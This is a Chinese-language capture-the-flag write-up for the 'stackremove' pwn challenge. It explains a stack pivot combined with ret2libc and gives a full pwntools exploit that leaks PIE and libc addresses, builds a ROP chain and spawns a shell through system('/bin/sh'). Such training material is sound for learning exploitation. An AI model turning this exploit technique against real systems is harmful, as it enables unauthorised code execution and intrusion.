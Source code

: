 ```yaml
---
title: 赛博协会训练营 - stackremove
date: 2023/9/22 12:00:00
tags:
    - noob
excerpt: 通过栈迁移和ret2libc利用，成功破解`stackremove`程序。
---
```


from cbctf starter 2023

## 文件分析

下载`stackremove`, NX on, PIE on, Canary off, RELRO full  
ghidra分析为64位程序

## 解题思路

栈上空间很大，但是溢出rbp的空间很小，因此考虑栈迁移后ret2libc  
第一步先找到栈上一个有程序偏移的地址，利用`printf(..., buf + offset)`输入输入偏移后算出pieBase，
然后读取buf地址，方便栈迁移

具体过程讲解可以看newstar2023中的`stack_migration`Writeup

## 踩过的坑

1. `scanf`中的函数会执行`movaps ..., xmm0`，也会检查rsp！下次见到这个指令就要多加一个ret
2. 本地调试找的main函数获取pieBase，结果一连接，崩了，一检查发现pieBase不对，在栈上找了一个其他函数

## EXPLOIT

```python
from pwn import *
import LibcSearcher
sh = remote(???, 10043)
elf = ELF('stackremove')

# payload 1: get pieBase
sh.sendline(b'96') # locate __libc_csu_initAddr
sh.recvuntil(b'kie!') # skip
libcCsuAddr = u64(sh.recvline()[:6] + b'\0\0')

pieBase = libcCsuAddr - elf.symbols['__libc_csu_init']
putsPlt = pieBase + elf.plt['puts']
putsGot = pieBase + elf.got['puts']
popRdiAddr = pieBase + 0x953
leaveRetAddr = pieBase + 0x8ea
retAddr = pieBase + 0x8eb
mainAddr = pieBase + elf.symbols['main']

# print(hex(pieBase)) # check
sh.recvuntil(b':\n') # skip
space = int(sh.recvuntil(b'sh')[:14], 16)

# payload 2: migrate stack for the first time
sh.sendline(p64(popRdiAddr) + p64(putsGot) + p64(putsPlt) + p64(retAddr) + p64(mainAddr) + b'0'*0x38 + p64(space - 8) + p64(leaveRetAddr)) # scanf check rsp

sh.recvuntil(b'ot!\n') # skip
putsGotAddr = u64(sh.recvline()[:6] + b'\0\0')
libc = LibcSearcher.LibcSearcher('puts', putsGotAddr & 0xfff)
libcBase = putsGotAddr - libc.dump('puts')
systemAddr = libcBase + libc.dump('system')
shstrAddr = libcBase + libc.dump('str_bin_sh')

sh.sendline(b'0') # no need this time
sh.recvuntil(b':\n') # skip

# payload 3: run system
space = int(sh.recvline()[:14], 16)
sh.sendline(p64(popRdiAddr) + p64(shstrAddr) + p64(systemAddr) + b'0'*0x48 + p64(space - 8) + p64(leaveRetAddr))

sh.interactive()
```

Done.
